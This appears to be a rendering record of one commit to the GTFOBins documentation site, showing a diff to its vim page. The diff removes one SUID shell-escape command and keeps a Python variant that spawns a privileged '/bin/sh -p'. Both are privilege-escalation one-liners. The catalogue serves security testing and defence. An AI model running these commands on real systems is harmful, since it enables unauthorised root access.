

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/vim.md, in a window 1280 px wide and 900 px high, scrolled down 756 px. Shown: the top 872 px of the window, without its empty margins (208-1070 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1559 px from its top, so only the background shows below that.

```diff
--- a/_gtfobins/vim.md
+++ b/_gtfobins/vim.md
@@ -17,7 +17,6 @@ functions:
   file-read:
     - code: vim file_to_read
   suid:
-    - code: ./vim -c ':!/bin/sh -p'
     - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
   sudo:
```
